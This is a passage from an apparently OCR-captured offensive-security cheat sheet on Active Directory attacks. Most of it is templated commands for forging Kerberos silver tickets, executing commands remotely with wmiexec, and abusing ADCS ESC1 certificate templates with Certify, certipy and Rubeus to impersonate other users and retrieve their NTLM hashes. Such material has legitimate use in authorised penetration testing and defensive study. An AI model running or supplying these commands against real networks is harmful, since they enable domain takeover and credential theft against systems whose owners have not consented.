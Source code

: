 ````
```
python3 ticketer.py -nthash <NTLM HASH> -domain <FQDN DOMAIN> -domain-sid <DOMAIN SID> -spn cifs/<FQDN COMPUTER ACCOUNT> Administrator

export KRB5CCNAME=<PATH TO CCACHE>
```

#### Execute commands
```
python3 wmiexec.py -k -no-pass <FQDN COMPUTER ACCOUNT>
```

### Privilege Escalation
### ESC1 Request SAN of other user
- Requirements
	- Extended Key Usage: `Smart Card Logon` (`1.3.6.1.4.1.311.20.2.2`), `PKINIT authentication` (`1.3.6.1.5.2.3.4`) or `Client Authentication` (`1.3.6.1.5.5.7.3.2`) for AD Authentication.
	- Certificate-Name-Flag: `ENROLLEE_SUPPLIES_SUBJECT` attribute is enabled: allows the certificate requestor to specify any subjectAltName (SAN) to request a certificate as any user 
	- User with Enrollment Rights
- CBA patch breaks this attack if there is no match with the SID of the target user. Use `/sidextension` or `-extensionsid` to fix this.
### Windows
#### Get SID of user 
```
Get-DomainUser <SAMACCOUNTNAME> | Select-Object samaccountname, objectsid
```

#### Request cert and abuse SAN
```
.\Certify.exe request /ca:<FQDN CA>\<CA NAME> /template:<TEMPLATE NAME> /altname:<USER> /sidextension:<TARGET OBJECT SID> /domain:<FQDN>
```

#### Convert Pem to PFX with openssl
- Save the private key and cert to `cert.pem`
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### Request TGT
- Add `/getcredentials` to also retrieve the NTLM hash
```
.\Rubeus.exe asktgt /user:<USER> /certificate:<PATH TO cert.pfx> /password:<PASSWORD> /domain:<FQDN DOMAIN> /dc:<FQDN DC> /nowrap /ptt
```

#### Check access
```
dir \\<TARGET FQDN>\c$
winrs -r:<TARGET FQDN> whoami
```

### Linux
#### Get SID of user 
```
pywerview get-netuser -u <USER> -p <PASSWORD --username <USER> --domain <FQDN DOMAIN> --dc-ip <DC IP> --attributes "objectsid"
```

#### Request cert and abuse SAN
```
certipy req -u <USER>@<DOMAIN> -hashes <NTLM HASH> -dc-ip <DC IP> -target <FQDN CA> -ca <CA NAME> -template <TEMPLATE NAME> -upn <SAMACCOUNTNAME>@<FQDN DOMAIN> -extensionsid <OBJECTSID> -out 'esc1' -debug
````